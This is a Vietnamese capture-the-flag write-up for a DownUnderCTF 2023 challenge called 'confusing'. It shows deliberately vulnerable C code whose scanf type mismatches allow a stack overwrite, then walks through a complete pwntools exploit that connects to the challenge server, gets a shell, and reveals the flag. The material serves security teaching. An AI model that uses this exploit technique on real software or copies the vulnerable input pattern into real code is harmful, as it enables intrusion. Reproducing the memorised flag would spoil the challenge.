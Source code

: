 # confusing

1 chall làm mình đau đầu cực 

## source C

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

int main() {
    init();

    short d;
    double f;
    char s[4];
    int z; 

    printf("Give me d: ");
    scanf("%lf", &d);

    printf("Give me s: ");
    scanf("%d", &s);

    printf("Give me f: ");
    scanf("%8s", &f);

    if(z == -1 && d == 13337 && f == 1.6180339887 && strncmp(s, "FLAG", 4) == 0) {
        system("/bin/sh");
    } else {
        puts("Still confused?");
    }
}
```

nhiệm vụ đơn giản là ta chỉ cần cho **z = -1 && d = 13337 && f = 1.6180339887 và s = FLAG** là có shell

ở đây ta để ý thì **short d chỉ có 2 byte**, nhưng mà lại cho phép nhập là **scanf("%lf", &d)**, %lf là của double có 8byte, **đây có thể gọi là lỗi BOF vì ta có thể tràn được 6byte**

## Khai thác

bây giờ ta cứ thử debug xem sao

![image](https://github.com/gookoosss/CTF/assets/128712571/547f583e-65a4-420c-a550-6f99554345ea)


lúc này ta **nhập d vào địa chi 0x007fffffffe042**

![image](https://github.com/gookoosss/CTF/assets/128712571/62ca3109-76f8-413e-970d-af78cd679b01)


ta tìm được **địa chỉ của z là 0x7fffffffe044** và kế bên thằng d, lúc này ta nhảy ra liền ý tưởng là **lợi dụng lỗi BOF của thằng d để tràn biền ghi đè 4 byte thằng z thành 0xffffffff**

```python 
p16(0x3419) + b'\xff\xff\xff\xff'
```

có ý tưởng là vậy nhưng mà mình làm mãi mà ko thể nào chèn được đúng ý mình, nên mình đành tham khảo writeup của BTC:

```python
p.sendlineafter(b'Give me d: ', str(struct.unpack('d', p16(0x3419) + b'\xff\xff\xff\xff' + b'\xff\xfe')[0]).encode())
```

![image](https://github.com/gookoosss/CTF/assets/128712571/fc0e9994-1631-4e9e-93b3-8c903318c3f6)


- **hmm tóm tắt lại những gì mình hiểu là:** thứ ta mong muốn gán vào là **p16(0x3419) + b'\xff\xff\xff\xff' (6 byte)** , nhưng scanf muốn ta gửi kiểu dữ liệu là double nên **ta phải biến nó thành double bằng struct.unpack('d', byte)[0]** *(ép byte ta gửi vào thành double)*, nhưng mà **unpack() chỉ nhận đủ 8byte** nên ta sẽ cho **thêm 2 byte cuối là b'\xff\xfe'**

- giải quyết xong thằng d và z rồi thì tiếp theo là thằng **s == 'FLAG', cái này thì đơn giản**

```python 
p.sendlineafter(b'Give me s: ', str(u32(b'FLAG')))
```

- cuối cùng là thằng f, **nó yêu cầu ta nhập kiểu dữ liệu string**, ta phải sử dụng **pack()** rồi
```python 
p.sendlineafter(b'Give me f: ', struct.pack('d', 1.6180339887))
```

![image](https://github.com/gookoosss/CTF/assets/128712571/1519a00e-7fa3-47f2-af84-27a6f3d658fb)


hiểu đơn giản như này, ở trên ta dùng **unpack() để chuyển từ dạng byte sang double**, thì ở đây **pack() sẽ ngược lại, nó sẽ chuyển từ dạng double sang byte** cho ta và ta có thể gán vào cho f thoải mái

dee cuối cùng là lấy shell thôi 

![image](https://github.com/gookoosss/CTF/assets/128712571/4cb7ea7e-5d9f-4f37-89fb-8ee9413ee553)


## script 

```python
from pwn import *

# p = process('./confusing')
p = remote('2023.ductf.dev', 30024)
exe = ELF('./confusing')

# gdb.attach(p, gdbscript = '''
# b*main+73
# b*main+114
# b*main+155
# c
# ''')

input()

# b'\xff\xff\xff\xff' == Z == 0xffffffff == -1
# p16(0x3419) == D == 13337

p.sendlineafter(b'Give me d: ', str(struct.unpack('d', p16(0x3419) + b'\xff\xff\xff\xff' + b'\xff\xfe')[0]).encode())
p.sendlineafter(b'Give me s: ', str(u32(b'FLAG')))
p.sendlineafter(b'Give me f: ', struct.pack('d', 1.6180339887))

p.interactive()

# DUCTF{typ3_c0nfus1on_c4n_b3_c0nfus1ng!}
```

## Flag

DUCTF{typ3_c0nfus1on_c4n_b3_c0nfus1ng!}

